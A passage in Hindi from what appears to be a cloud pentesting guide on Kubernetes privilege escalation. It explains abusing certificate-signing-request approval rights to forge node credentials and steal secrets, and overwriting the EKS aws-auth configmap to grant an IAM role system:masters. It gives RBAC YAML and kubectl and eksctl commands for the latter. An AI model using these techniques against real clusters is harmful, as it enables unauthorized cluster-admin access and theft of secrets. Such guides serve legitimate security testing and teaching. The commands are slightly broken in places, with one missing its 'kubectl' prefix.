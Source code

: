 ```yaml
- certificates.k8s.io
resources:
- certificatesigningrequests/approval
verbs:
- update
- apiGroups:
- certificates.k8s.io
resources:
- signers
resourceNames:
- example.com/my-signer-name # example.com/* can be used to authorize for all signers in the 'example.com' domain
verbs:
- approve
```
तो, नए नोड CSR को मंजूरी मिलने के साथ, आप नोड की विशेष अनुमतियों का दुरुपयोग करके रहस्यों को चुरा सकते हैं और विशेषाधिकारों को बढ़ा सकते हैं।

[**इस पोस्ट**](https://www.4armed.com/blog/hacking-kubelet-on-gke/) और [**इस पोस्ट**](https://rhinosecuritylabs.com/cloud-security/kubelet-tls-bootstrap-privilege-escalation/) में GKE K8s TLS Bootstrap कॉन्फ़िगरेशन को **स्वचालित साइनिंग** के साथ कॉन्फ़िगर किया जाता है और इसे दुरुपयोग किया जाता है ताकि एक नए K8s नोड के क्रेडेंशियल्स उत्पन्न किए जा सकें और फिर उनका दुरुपयोग करके विशेषाधिकारों को बढ़ा सकें रहस्यों को चुरा सकें।\
यदि आपके पास उल्लिखित विशेषाधिकार हैं तो आप एक ही चीज़ कर सकते हैं। ध्यान दें कि पहला उदाहरण एक नए नोड को सीमित करने वाली त्रुटि को अनदेखा करता है जो नई नोड को उस पर माउंट किए गए कंटेनरों में रहस्यों तक पहुंचने से रोकती है क्योंकि **नोड केवल उस पर माउंट किए गए कंटेनरों के रहस्यों तक पहुंच सकता है।**

इसे दुरुपयोग करने का तरीका बस यह है कि **आप रुचिकर रहस्यों के साथ माउंट किए गए कंटेनर के नोड नाम के लिए नोड क्रेडेंशियल्स बनाएं** (लेकिन पहले पोस्ट में इसे कैसे करना है वह जांचें):
```bash
"/O=system:nodes/CN=system:node:gke-cluster19-default-pool-6c73b1-8cj1"
```
### AWS EKS aws-auth configmaps

उन प्रिंसिपल्स को जो EKS (AWS में होना चाहिए) क्लस्टर्स पर kube-system नेमस्पेस में **`configmaps`** को संशोधित कर सकते हैं, वे aws-auth configmap को अधिलेखित करके क्लस्टर व्यवस्थापक विशेषाधिकार प्राप्त कर सकते हैं।
आवश्यक क्रियाएं **`update`** और **`patch`** हैं, या **`create`** अगर configmap नहीं बनाया गया था:

{% code overflow="wrap" %}
```bash
# Check if config map exists
get configmap aws-auth -n kube-system -o yaml

## Yaml example
apiVersion: v1
kind: ConfigMap
metadata:
name: aws-auth
namespace: kube-system
data:
mapRoles: |
- rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
username: system:node:{{EC2PrivateDNSName}}
groups:
- system:masters

# Create donfig map is doesn't exist
## Using kubectl and the previous yaml
kubectl apply -f /tmp/aws-auth.yaml
## Using eksctl
eksctl create iamidentitymapping --cluster Testing --region us-east-1 --arn arn:aws:iam::123456789098:role/SomeRoleTestName --group "system:masters" --no-duplicate-arns

```